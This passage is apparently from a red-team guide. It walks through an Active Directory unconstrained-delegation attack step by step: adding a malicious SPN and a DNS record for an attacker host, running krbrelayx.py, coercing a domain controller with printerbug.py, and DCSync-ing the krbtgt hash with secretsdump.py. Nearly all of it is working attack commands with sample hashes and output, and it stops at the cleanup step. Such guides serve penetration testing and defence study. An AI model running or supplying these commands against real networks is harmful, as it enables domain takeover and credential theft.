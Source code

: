 2\. Add a malicious SPN for the owned computer account with unconstrained delegation:

```
 # Check (no modifications)
$ python addspn.py -u 'megacorp.local\SRV01$' -p :fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local -q DC01.megacorp.local
 # Adding servicePrincipalName that doesn't match full hostname or samAccountName will fail
$ python addspn.py -u 'megacorp.local\SRV01$' -p :fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local DC01.megacorp.local
 # But modifying msDS-AdditionalDnsHostName will succeed
$ python addspn.py -u 'megacorp.local\SRV01$' -p :fc525c9683e8fe067095ba2ddc971889 -s HOST/evil.megacorp.local DC01.megacorp.local --additional
```

3\. Add a DNS record pointing to the attacker's host:

```
$ python dnstool.py -u 'megacorp.local\SRV01$' -p :fc525c9683e8fe067095ba2ddc971889 -r evil.megacorp.local -d <ATTACKER_IP> --action add DC01.megacorp.local
```

4\. Check that the record was added successfully (\~ 3 minutes):

```
$ nslookup evil.megacorp.local <DC01_IP>
Server:		192.168.1.11
Address:	192.168.1.11#53

Name:	evil.megacorp.local
Address: 10.10.13.37
```

5\. Start `krbrelayx.py` providing AES key of the owned computer account or its plain password in hex with salt:

```
 # In case secretsdump.py was used remotely
$ sudo python krbrelayx.py -aesKey 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff
 # In case secretsdump.py was used locally
$ sudo python krbrelayx.py --krbhexpass <PLAIN_PASSWORD_HEX> --krbsalt MEGACORP.LOCALhostsrv01.megacorp.local
```

6\. Coerce the authentication to attacker's host from DC01 by triggering printer bug:

```
$ python printerbug.py megacorp.local/'SRV01$'@DC01.megacorp.local -hashes :fc525c9683e8fe067095ba2ddc971889 evil.megacorp.local
```

7\. Export extracted TGT and perform DCSync to get krbtgt hash (or any other privileged account hash):

```
$ export KRB5CCNAME=`pwd`/'DC01$@MEGACORP.LOCAL_krbtgt@MEGACORP.LOCAL.ccache'
$ secretsdump.py DC01.megacorp.local -dc-ip <DC01_IP> -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```

8\. Cleanup. Delete SPN and DNS record:
